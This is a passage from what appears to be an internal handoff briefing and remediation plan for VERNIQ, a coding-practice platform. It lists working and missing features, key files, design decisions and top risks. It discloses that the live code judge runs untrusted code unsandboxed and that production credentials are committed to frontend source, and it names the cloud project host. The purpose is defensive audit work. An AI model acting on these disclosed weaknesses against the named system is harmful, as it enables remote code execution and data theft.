### Step 9: Establish Continuous Integration (CI) Pipeline (P1)
- Create `.github/workflows/ci.yml` running:
  - Frontend typecheck (`tsc --noEmit`)
  - Frontend build (`vite build`)
  - Backend judge tests (`python -m unittest discover -s backend/judge/tests`)

### Step 10: Install Frontend Test Runner & Purge Dead Code (P2)
- Install `vitest` and configure `npm test` script in `frontend/package.json`.
- Delete unused legacy views: `DashboardStubView.tsx`, `CoursesView.tsx`, and `PlaceholderView.tsx`.


---

<!-- ============================================================ -->
<!-- PART: 16_handoff_summary.md -->
<!-- ============================================================ -->

# 16 - AI Handoff Executive Briefing & Knowledge Base

## AI Handoff Briefing (Max 2 Pages)

> **Purpose:** This briefing is specifically formatted for an incoming AI engineering assistant receiving this codebase with zero prior context. It provides a complete, grounded summary of facts, boundaries, and priorities.

---

### 1. What the Project Is
**VERNIQ** is a full-stack engineering education platform tailored for Indian software engineering students preparing for top-tier product placements (FAANG/MAANG, Indian unicorns) and GATE.
It combines:
- A curated catalog of 3,392 Data Structures & Algorithms (DSA) problems.
- An isolated multi-language code judge (Python, C++, Java, TypeScript, Go).
- Structured roadmaps, weekly adaptive sprint planners, and spaced repetition revision.
- Student workspace utilities: multi-file Cloud CodeSpace, Markdown NoteSpace, and campus-league leaderboards.

---

### 2. What Is Truly Working End-to-End
- **Frontend SPA Deployment:** Live on Vercel at `https://verniq.vercel.app` with dark-themed, responsive Tailwind UI.
- **Authentication:** Email/password and GitHub OAuth via Supabase GoTrue; automatic profile provisioning via PostgreSQL triggers.
- **Problem Catalog & Filtering:** 3,392 problems in Supabase with fast client pagination, difficulty/domain filters, and search.
- **Problem Workspace & Standalone IDE:** Monaco Editor with syntax highlighting, autosave recovery across refreshes, custom test case console, and multi-file code editing.
- **Code Judge Execution:** Low-latency runner supporting 5 languages with compilation caching, automatic AST harness injection, and standard verdict resolution.
- **Campus & Global Leaderboards:** Live PostgreSQL views ranking individual students and engineering institutions.
- **Database Schema:** 39 relational tables and strict RLS policies across all migrations in `backend/supabase/migrations/`.

---

### 3. What Is NOT Working (Mocks, Stubs & Missing Features)
- **AI Mentorship & Mock Interviews:** `backend/ai/` contains **zero code** (only README/requirements). `/app/ai-mentor` is a placeholder card.
- **Payments & Subscriptions:** Completely absent (0% implemented). No Razorpay/Stripe SDKs, no `/pricing` route, no subscription tables.
- **Contests & Community Forums:** 0% implemented; `/app/contests` routes to a placeholder view.
- **Judge Sandboxing:** No network isolation or cgroups memory limits; untrusted code runs directly via `subprocess.Popen`.
- **Frontend Testing:** No test runner installed in `frontend/package.json` (`npm test` does not work).
- **Automated CI/CD:** No GitHub Actions test workflows exist.

---

### 4. Key Files to Know
| File Path | Role & Importance |
|---|---|
| [`frontend/src/lib/supabaseClient.ts`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/lib/supabaseClient.ts) | Public Supabase client instance (contains hardcoded fallback credentials). |
| [`frontend/src/lib/submissionService.ts`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/lib/submissionService.ts) | Client-side coordinator for running and submitting code against judge worker. |
| [`frontend/src/hooks/useAuth.tsx`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/hooks/useAuth.tsx) | Central authentication provider, session listener, and profile state. |
| [`frontend/src/routes/index.tsx`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/routes/index.tsx) | Complete React Router route registry (26 routes). |
| [`backend/judge/src/worker.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py) | Main HTTP execution server (:8080) and Supabase submission queue poller. |
| [`backend/judge/src/runner/sandbox.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/runner/sandbox.py) | Core compiler, runner, process executor, and timeout enforcement. |
| [`backend/judge/src/runner/harness.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/runner/harness.py) | 80KB AST driver injector for LeetCode-style solution snippets across 5 languages. |
| [`backend/supabase/migrations/`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/supabase/migrations/) | Canonical source of truth for all 39 database tables, triggers, and RLS policies. |

---

### 5. Key Decisions Already Made
1. **Client-Direct Architecture:** The frontend connects directly to PostgreSQL via Supabase PostgREST rather than routing through an intermediary Node/Express backend.
2. **Dual-Mode Code Judge:** The judge operates both as a low-latency HTTP microservice for interactive testing (`POST /execute`) and an asynchronous poller for queued submissions.
3. **Canonical Test Protection:** Sample test cases are publicly queryable, but full test suites are protected by RLS; the judge fetches hidden tests via `SUPABASE_SERVICE_ROLE_KEY`.
4. **Compilation Caching:** Binaries are fingerprinted with SHA-256 and cached on disk to eliminate compiler startup overhead.
5. **No TODO Comments:** Developers used visual UI alert banners and `WorkspaceSubView` stubs rather than `// TODO` comments to track incomplete work.

---

### 6. Top 3 Risks
1. **Judge Remote Code Execution / Host Compromise:** Untrusted code runs without network isolation or dropped privileges.
2. **Credential Exposure:** Live Supabase production credentials committed to frontend source code.
3. **Supply Chain Risk:** Missing frontend `package-lock.json` exposes deployments to floating dependency vulnerabilities.

---

### 7. What Phase to Build Next
- **Phase A (Immediate Security Fixes):** Harden judge execution with `--network none` containerization, authenticate judge HTTP API, purge hardcoded keys, generate lockfile.
- **Phase B (Monetization):** Integrate Razorpay payment flow, publish legal pages (`/pricing`, `/privacy`, `/terms`, `/refunds`), and enforce `is_premium` access checks.
- **Phase C (AI Activation):** Implement minimal FastAPI AI service in `backend/ai/` streaming Socratic hints via SSE.

---

## Questions I Could Not Answer From the Code

1. **Production Judge Deployment Host:**
   Where is the live judge worker hosted for the deployed Vercel site (`https://verniq.vercel.app`)? In production, does Vercel connect to a remote VPS running the Docker container, or is live code execution currently unreachable from Vercel?
2. **Supabase Cloud Project Administration:**
   Are all 14 migrations in `backend/supabase/migrations/` fully applied to the cloud instance (`cisddayhekkktcomnqhz.supabase.co`), or has the cloud database experienced manual schema edits in the Supabase web console?
3. **Planned Payment Commercial Terms:**
   What are the exact pricing tiers intended for the Indian market (e.g. ₹499/month vs ₹999/month), and is an Indian GSTIN already registered for Razorpay merchant onboarding?
4. **Intended LLM Provider & Budget:**
   Is Anthropic Claude 3.5 Sonnet, Google Gemini 1.5 Pro, or a locally hosted model (Ollama) preferred for the Socratic AI mentor, and what is the target token budget per student?


---
